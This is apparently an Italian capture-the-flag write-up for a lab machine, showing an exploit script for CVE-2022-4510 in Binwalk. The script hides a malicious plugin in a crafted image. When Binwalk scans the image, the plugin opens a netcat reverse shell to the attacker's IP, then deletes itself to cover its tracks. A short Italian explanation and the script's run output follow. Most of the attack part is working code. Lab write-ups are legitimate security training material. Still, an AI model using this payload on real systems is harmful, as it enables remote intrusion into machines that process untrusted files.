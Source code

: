 ```bash
parser.add_argument("port", help="Port to nc listener",default=1)

args = parser.parse_args()

if args.file and args.ip and args.port:
    header_pfs = bytes.fromhex("5046532f302e390000000000000001002e2e2f2e2e2f2e2e2f2e636f6e6669672f62696e77616c6b2f706c7567696e732f62696e77616c6b2e70790000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000034120000a0000000c100002e")
    lines = ['import binwalk.core.plugin\n','import os\n', 'import shutil\n','class MaliciousExtractor(binwalk.core.plugin.Plugin):\n','    def init(self):\n','        if not os.path.exists("/tmp/.binwalk"):\n','            os.system("nc ',str(args.ip)+' ',str(args.port)+' ','-e /bin/bash 2>/dev/null &")\n','            with open("/tmp/.binwalk", "w") as f:\n','                f.write("1")\n','        else:\n','            os.remove("/tmp/.binwalk")\n', '            os.remove(os.path.abspath(__file__))\n','            shutil.rmtree(os.path.join(os.path.dirname(os.path.abspath(__file__)), "__pycache__"))\n']

    in_file = open(args.file, "rb")
    data = in_file.read()
    in_file.close()

    with open("/tmp/plugin", "w") as f:
       for line in lines:
          f.write(line)

    with open("/tmp/plugin", "rb") as f:
        content = f.read()

    os.system("rm /tmp/plugin")

    with open("binwalk_exploit.png", "wb") as f:
        f.write(data)
        f.write(header_pfs)
        f.write(content)

    print("")
    print("You can now rename and share binwalk_exploit and start your local netcat listener.")
    print("")                                                                                                                                                                                                                              
```

L'exploit ci permette di inserire una shell all'interno di un'immagine manipolata. Usando il Binwalk binario. 
Passando l'ip della nostra macchia e la porta su cui dobbiamo essere contattati dalla shell, creiamo l'immagine manipolata .

```bash
┌──(root㉿kali)-[/home/kali/htb/pilgrimage]
└─# python3 51249.py wolf.jpg 10.10.14.9 6969

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################
```